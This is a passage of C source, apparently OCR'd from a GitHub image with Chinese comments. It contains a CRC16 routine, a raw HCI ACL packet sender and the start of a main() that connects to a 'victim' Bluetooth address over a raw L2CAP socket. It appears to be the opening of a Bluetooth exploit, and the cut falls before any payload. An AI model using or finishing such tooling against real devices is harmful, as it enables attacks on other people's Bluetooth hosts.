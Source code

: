 ```c
    0x8201, 0x42c0, 0x4380, 0x8341, 0x4100, 0x81c1, 0x8081, 0x4040
};
 
uint16_t crc16(uint16_t crc, const void *buf, size_t size) {
    const uint8_t *p;
    p = buf;
    while (size--)
        crc = crc16_tab[(crc ^ (*p++)) & 0xFF] ^ (crc >> 8);
 
    return crc;
}    /*以上部分是从linux5.4源码中截取的FCS计算代码*/
 
int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
    uint8_t type = HCI_ACLDATA_PKT;
    uint16_t BCflag = 0x0000;
    uint16_t PBflag = 0x0002; /*表示是第一个L2CAP分组*/
    uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F; /*填充HCI包头的PB、BC字段*/
    hci_acl_hdr hdr;
    hdr.handle = htobs(acl_handle_pack(hci_handle, flags)); /*合并成HCI包头的handle字段*/
    hdr.dlen = data_length; /*填充HCI包头的净荷长度字段*/
    struct iovec iv[3];
    iv[0].iov_base = &type;
    iv[0].iov_len = 1;
    iv[1].iov_base = &hdr;
    iv[1].iov_len = HCI_ACL_HDR_SIZE;
    iv[2].iov_base = data;
    iv[2].iov_len = data_length;
    return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec)); /*HCI数据包通过原始套接字发送到远程*/
}
 
int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s MAC_ADDR\n", argv[0]);
        return 1;
    }
 
    bdaddr_t dst_addr;
    str2ba(argv[1], &dst_addr);
    printf("[*] Resetting hci0 device...\n");
    system("sudo hciconfig hci0 down");
    system("sudo hciconfig hci0 up");
    printf("[*] Opening hci device...\n");
    struct hci_dev_info di;
    int hci_device_id = hci_get_route(NULL);
    int hci_socket = hci_open_dev(hci_device_id);
    if (hci_devinfo(hci_device_id, &di) < 0) {
        perror("hci_devinfo");
        return 1;
    }
    printf("[*] Connecting to victim...\n");
    struct sockaddr_l2 laddr = {0};
    laddr.l2_family = AF_BLUETOOTH;
    laddr.l2_bdaddr = di.bdaddr;
 
    struct sockaddr_l2 raddr = {0};
    raddr.l2_family = AF_BLUETOOTH;
    raddr.l2_bdaddr = dst_addr;
    int l2_sock;
 
    if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
        perror("socket");
        return 1;
    }
```